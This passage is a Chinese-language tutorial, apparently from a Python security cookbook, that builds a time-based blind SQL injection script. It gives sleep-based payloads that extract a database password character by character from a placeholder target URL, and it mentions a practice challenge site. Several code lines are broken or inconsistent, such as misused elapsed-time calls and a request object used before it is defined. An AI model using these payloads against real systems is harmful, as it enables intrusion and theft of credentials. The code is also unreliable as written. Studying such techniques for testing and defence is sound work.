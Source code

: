 一如既往，我们导入所需的库，并声明稍后需要填写的列表。我们这里还有一个函数，它声明脚本确实已经开始了。使用一些基于时间的功能，用户可以等待一段时间。在这个脚本中，我还包括了使用`request`库的 cookies。对于此类攻击，可能需要进行身份验证：

```py
times = []
print “Kicking off the attempt”
cookies = {'cookie name': 'Cookie value'}
```

我们在字典中设置了有效负载以及提交按钮。攻击字符串非常简单，可以通过一些解释来理解。初始勾号必须转义，才能作为字典中的文本处理。这个记号最初会打断 SQL 命令，并允许我们输入自己的 SQL 命令。接下来，我们说在第一个命令失败的情况下，使用`OR`执行以下命令。然后，我们告诉服务器为密码列第一行中的每个字符休眠一秒钟。最后，我们用分号结束语句，并用散列注释掉任何尾随字符（如果您是美国人和/或是错的话，可以用英镑）：

```py
payload = {'injection': '\'or sleep char_length(password);#', 'Submit': 'submit'}
```

然后，我们将服务器响应的时间长度设置为`firstreponsetime`参数。我们将利用这一点来了解在以下链中需要多少字符通过此方法进行暴力：

```py
firstresponsetime = str(req.elapsed).total_seconds
```

我们创建一个循环，将`x`设置为从`1`到所标识字符串长度的所有数字，并对每个数字执行一个操作。我们从`1`开始，因为 MySQL 从`1`开始计数，而不是像 Python 一样从零开始计数：

```py
for x in range(1, firstresponsetime):
```

我们制作了一个与前面类似的有效负载，但这次我们说的是在第一行密码列中密码的`X`字符的 ascii 值的 sleep。因此，如果第一个字符是小写字母 a，那么相应的 ascii 值是 97，因此系统将休眠 97 秒。如果是小写 b，它将睡眠 98 秒，依此类推：

```py
payload = {'injection': '\'or sleep(ord(substr(password, '+str(x)+', 1)));#', 'Submit': 'submit'}
```

我们每次提交字符串中每个字符位置的数据：

```py
req = requests.post('<target url>', data=payload, cookies=cookies)
```

我们获取每个请求的响应时间来记录服务器睡眠的时间，然后将该时间从 ascii 值转换回字母：

```py
responsetime = req.elapsed.total_seconds
  a = chr(responsetime)
```

对于每个迭代，我们打印出当前已知的密码，然后最终打印出完整密码：

```py
answer = ''.join(times)
print “Recovered String: “+ answer
```

## 还有更多…

这个脚本提供了一个框架，可以适应许多不同的场景。web 应用程序挑战网站 Wechall 设置了一个限时、盲目的 SQLi 挑战，必须在很短的时间内完成。下面是我们的原始脚本，它已经适应了这种环境。如您所见，我必须考虑不同值和服务器延迟的较小时间差，并且还引入了一种检查方法，每次重置测试值并自动提交：
